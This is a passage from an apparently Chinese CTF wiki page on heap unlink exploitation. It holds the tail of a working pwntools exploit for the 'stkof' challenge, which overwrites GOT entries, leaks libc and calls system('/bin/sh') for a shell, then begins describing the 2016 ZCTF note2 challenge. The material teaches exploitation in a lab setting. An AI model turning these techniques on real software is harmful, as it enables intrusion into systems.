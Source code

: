 ```python
    payload += p64(0x90)
    edit(2, len(payload), payload)

    # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
    free(3)
    p.recvuntil('OK\n')

    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
        stkof.got['atoi'])
    edit(2, len(payload), payload)

    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    # free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))

    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
    exp()
```

## 2016 ZCTF note2
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2016_zctf_note2)

### 分析程序

首先，我们先分析一下程序，可以看出程序的主要功能为

- 添加note，size限制为0x80，size会被记录，note指针会被记录。
- 展示note内容。
- 编辑note内容，其中包括覆盖已有的note，在已有的note后面添加内容。
- 释放note。
